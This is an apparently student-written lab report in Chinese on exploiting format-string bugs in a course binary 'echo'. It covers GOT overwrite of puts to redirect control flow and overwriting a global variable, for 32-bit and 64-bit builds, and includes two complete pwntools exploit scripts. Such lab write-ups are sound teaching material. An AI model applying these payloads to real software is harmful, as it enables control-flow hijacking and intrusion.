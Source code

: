 ## Report of Lab3

​																																王睿 3180103650

### 1. fmt32

#### 1.1 劫持控制流

- 首先，我们先通过`checksec echo`查看下echo开启的安全选项，可以看到RELRO选项为"Partial RELRO"，且未启用PIE

  ![image-20210416151803191](Report of Lab3.assets/image-20210416151803191.png)

- 同时，利用`readelf -S echo`命令看到GOT具有写权限

  ![image-20210416151943590](Report of Lab3.assets/image-20210416151943590.png)

综上，我们基本可以确定要使用GOT覆写技术，利用echo.c中的`printf(buffer)`的FSB漏洞，完成进程流劫持。

- 为了确定具体要覆写哪个GOT entry，以及具体的值，我们可以看到在echo.c中调用完`printf(buffer)`后，调用了`puts()`，因此我们需要将`puts()`的GOT的内容修改为`target_3180103650()`

<img src="Report of Lab3.assets/image-20210417163230802.png" alt="image-20210417163230802" style="zoom:80%;" />

- `puts()`的GOT所在位置可以通过`objdump -R echo`来查看，位于`0x0804c06c`处

  ![image-20210416152457125](Report of Lab3.assets/image-20210416152457125.png)

- 而`target_3180103650()`函数的地址则可以通过gdb查看，位于`0x080499d7`处

  ![image-20210416152616011](Report of Lab3.assets/image-20210416152616011.png)

  至此，我们已经明确了思路：通过两次修改两字节，分别将`0x0804c06c`处的两字节修改为`0x99d7`，``0x0804c06ce``处的两字节修改为`0x0804`，接下来的任务就是构造payload

- 首先判断printf初始的va_list和buffer[]的距离。通过输入`AAAA`以及一系列的`%x.`可以看到在第七个`%x`处输出了字符A的ASCII码: 41，由此可以知道va_list的初始位置需要6个`%x`来达到buffer[]

  ![image-20210416150016366](Report of Lab3.assets/image-20210416150016366.png)

- 所以，我们可以编写如下exploit代码，两次分别修改puts_got的两个字节的数据，使得程序在`printf(buffer)`后会执行puts，跳到`target_3180103650()`处，

  <img src="Report of Lab3.assets/image-20210417163419240.png" alt="image-20210417163419240" style="zoom:80%;" />

如下是成功修改控制流但没有成功修改变量的结果

![image-20210417163040717](Report of Lab3.assets/image-20210417163040717.png)

#### 1.2 修改全局变量id

- 而要修改全局变量`id`也是一样的方法，每次修改两字节，修改两次，只不过要对学号以及`target_3180103650()`函数地址的大小做一个排序，然后一次确定好要每次要输出多少字节

- 如下是修改后的explooit.py代码

  ![image-20210417171256948](Report of Lab3.assets/image-20210417171256948.png)

- 如下是成功修改控制流且修改了全局变量`id`的结果

![image-20210417170949145](Report of Lab3.assets/image-20210417170949145.png)

完整的exploit.py代码如下：

```python
from pwn import *
import sys

#context.log_level = 'DEBUG'

p = process('./echo', env={'LD_LIBRARY_PATH':'.'})

target = 0x080499d7
puts_got = 0x0804c06c

p.recvuntil("&id = 0x")
id_addr = p.recvuntil("\n", drop = True)
id_addr = int(id_addr, 16)

payload  = p32(puts_got + 2)
payload += "@@@@"
payload += p32(id_addr)
payload += "@@@@"
payload += p32(puts_got)
payload += "@@@@"
payload += p32(id_addr + 2)
payload += "%.8x" * 5 + "%." + str(0x0804 - 4 * 7 - 5 * 8) + "x%hn%." \
                             + str(0x87E2 - 0x0804) + "x%hn%." \
                             + str(0x99D7 - 0x87E2) + "x%hn%." \
                             + str(0xBD8C - 0x99D7) + "x%hn" 

p.recvuntil("charecters ...")
p.send(payload)
p.recv()
p.interactive()
```



### 2. fmt64

#### 2.1 fmt32与fmt64区别

​	64位系统中会出现\x00截断的现象，如果我们跟32位中构造payload方式一样，地址在前，格式化字符串在后，则会出现printf中的格式化字符串被截断

![image-20210417174433606](Report of Lab3.assets/image-20210417174433606.png)

可以看到，图中我们send内的信息确实如期发送了，但是在printf输出时，recv()接收到的数据仅有开头的地址，没有后面的格式化字符串。这是因为地址经过`p64()`后末尾出现了很多`\x00`，而printf在读到`\x00`就认为字符串结束了，不会继续后面的输出。因此，在64位FSB中，我们需要将地址放在payload的末尾。

#### 2.2 劫持控制流

> 发现用课上讲的单纯的设置%x来逐个确定位置在这种情况下很难用，所以采用了类似于`%7$5x`这种写法

- 因为将payload放在末尾，因此需要知道puts_got地址在栈中的位置，为此我们需要将puts_got存在栈上的位置固定，所以写了一个`pad(s)`函数，将s字符串后面填充满（256-16）个`\x90`字符。（256-16是因为payload最后的两个p64一共占用了16个字节）

- puts_got在栈上的位置固定后，我们就可以通过输入连续的`%p`来观察输出，确定puts_got的位置。通过测试可以看到，puts_got应该在第37个%p处。

  ![image-20210417232944164](Report of Lab3.assets/image-20210417232944164.png)

- 接下来就可以编写exploit代码了，只需要将栈上第36和37个字节的位置修改为`%n`即可。

  具体如下：

  ![image-20210417235421856](Report of Lab3.assets/image-20210417235421856.png)

  需要注意的是，put_got是8字节的，而因此，我们不仅要修改低4字节至`0x00401dd6`，高4字节应该清零（即处理高位地址时使用`%n`，而不是`%hn`）

- 截图如下：

![image-20210417235100988](Report of Lab3.assets/image-20210417235100988.png)

#### 2.3 修改全局变量id

因为测试了一下发现id的地址是固定的，就偷了个懒直接用了（机器确实开启了ASLR

于是就可以对地址大小排个序，从小到大修改。需要注意的是，这里需要重新对各个地址在栈中的位置做一次定位，且此时的`pad(s)`函数后方填充的字符数量也从原来的（256-16）变成了（256-32）

![image-20210418001208110](Report of Lab3.assets/image-20210418001208110.png)

实验截图如下：

![image-20210418001138698](Report of Lab3.assets/image-20210418001138698.png)

```python
from pwn import *

#context.log_level = 'DEBUG'

def pad(s):
    return s+"\x90"*(256-len(s)-32)

p = process('./echo', env = {'LD_LIBRARY_PATH':'.'})

puts_got = 0x0000000000603030

id_addr  = 0x0000000000603218

target   = 0x401dd6

payload  = "BBBBCCCC"
payload += "%" + str(0x0040 - len(payload)) + "x"
payload += "%34$n"
payload += "%" + str(0x1DD6 - 0x0040) + "x"
payload += "%35$hn"
payload += "%" + str(0x87E2 - 0x1DD6) + "x"
payload += "%36$hn"
payload += "%" + str(0xBD8C - 0x87E2) + "x"
payload += "%37$n"

payload  = pad(payload) 
payload += p64(puts_got+2)
payload += p64(puts_got)
payload += p64(id_addr)
payload += p64(id_addr+2)

p.recvuntil("...")
p.send(payload)
p.recv()
p.interactive()
```



### 3. bonus

因为最近ddl扎堆，没有时间研究...后面找时间好好学习一下

